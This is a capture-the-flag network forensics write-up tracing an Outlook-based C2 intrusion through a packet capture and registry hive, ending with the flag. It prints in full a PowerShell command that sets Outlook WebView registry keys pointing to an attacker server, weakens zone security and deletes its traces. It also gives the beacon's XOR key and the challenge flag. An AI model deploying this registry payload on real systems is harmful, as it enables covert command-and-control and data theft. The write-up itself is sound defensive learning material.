# Lookout
**Challenge scenario**: 

## Overview
Although the provided artifact was a disk of extension `.ad1`, it is a network forensics challenge.

Opening the disk with FTK Imager, and in user BKISC's Desktop folder, I found a packet capture of size 521MB, which is a litte too large for a packet capture.

More than 440,000 packet captured lol. Nearly all packets are transfered through TCP Protocol.

## Command explaination
With this tremendous number of packets, I cannot follow TCP Stream for informations as normal, since there must be hundreds of Streams. 
So I looked for HTTP Objects that was transfered when Wireshark was on and spotted a `report.txt` file that seems malicious.

I exported it for furthur analysis, and it is executing a Powershell command.

The following is the decoded command.
```
$tempRegFile = [System.IO.Path]::GetTempFileName() + ".reg"

$regContent = @"
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\SOFTWARE\Microsoft\Office\16.0\Outlook\Webview\Inbox]
"url"="http://192.168.1.189:8386/plugin/search/"
"security"="yes"

[HKEY_CURRENT_USER\SOFTWARE\Microsoft\Office\15.0\Outlook\Webview\Inbox]
"url"="http://192.168.1.189:8386/plugin/search/"
"security"="yes"

[HKEY_CURRENT_USER\SOFTWARE\Microsoft\Office\14.0\Outlook\Webview\Inbox]
"url"="http://192.168.1.189:8386/plugin/search/"
"security"="yes"

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Ext\Stats\{261B8CA9-3BAF-4BD0-B0C2-BF04286785C6}\iexplore]
"Flags"=dword:00000004

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\2]
"140C"=dword:00000000
"1200"=dword:00000000
"1201"=dword:00000003
"@

Set-Content -Path $tempRegFile -Value $regContent -Encoding Unicode
& reg.exe import "`"$tempRegFile`""
Remove-Item -Path $tempRegFile -Force
```
This Powershell creates a temporary .reg file, write registry content in it, import into Windows Registry by reg.exe then remove it to hide traces.
First it creates temporary registry file
`$tempRegFile = [System.IO.Path]::GetTempFileName() + ".reg"`
Then write contents in it.


It sets Outlook Webview configuration for Inbox, pointing to `http://192.168.1.189:8386/plugin/search/`.
Meaning that Outlook can be configged to show or upload the web content from 192.168.1.189:8386, path /plugin/search. Notably, it is using HTTP, not HTTPS. The main difference between these two is that HTTPS has TLS encryption and authentication, whereas HTTP does not. So the content that were sent through HTTP is nearly in plaintext.
Then it reduces some Internet Zone security settings. It covered all Office 14, 15, and 16, 
```
"url"="http://192.168.1.189:8386/plugin/search/"
"security"="yes"
```
means that everytime user openning Inbox, load the website from this URL. Normally, if Outlook notices a configurated folder to download outer content, it may ask for user's permission, but with `"security"="yes"`, Outlook will understand that this configuration is allowed, so no notification.

## VBScript
So I sorted HTTP request to the provided path using this filter
`http.request.uri contains "/plugin/search"`

I followed TCP Stream here for better vision.
The actual content that was downloaded in the URL given in the `.reg` file was a VBScript.

This malware will run automatically when Outlook WebView load, taking computername and username, encode them and Post back to `192.168.1.189:8386/plugin/search/`. The C2 Framework used by the attacker was Specula, which is a post-exploitation Command-and-Control (C2) framework by TrustedSec that repurposes Microsoft Outlook as a stealthy C2 beacon. Also the attacker was exploiting [CVE-2017-11774](https://nvd.nist.gov/vuln/detail/cve-2017-11774).

Decoding the uploaded reveals the computername and username as expected.

I continue to filter for 
```
http.user_agent contains "Specula"
```
and followed to TCP Stream 189 to get into the next stage.

As explained in the picture, it sends GET requests to C2 server to get the text responses. Then the response will have the format of FXXXXPAYLOAD.
Whereas F will control what to do, and the payload is taken after removing first 5 characters.
And in the Crypt() function where it encrypt payloads:

Just execute XOR operation and encode as Hex.
But where is the XOR key, it is the value located in `HKCU\Software\Microsoft\Office\16.0\Outlook\UserInfo\KEY`.

So I went back to FTK Imager, extract NTUSER.DAT and openned it by RegistryExplorer.

It is `o4WlfbKbx1xik1TgTQGeOQ`.

## Decrypt traffic
With these information, I can finally decrypt these responses in traffic, for example this one.

Starting with 1 --> decrypt.

Listing folders in Users directory.

It goes deeper into user BKISC.

Next to Desktop folder.


Then, the attacker uploaded the content of `flag.py` to server.


Running this Python script on my remote machine and I had the flag.

Afterwards, the attacker deleted `flag.py`, and that's why we cannot see it by FTK Imager.

**FLAG: BKISC{l0oK_Ou7_f0R_0u71o0k_C2!!!}**


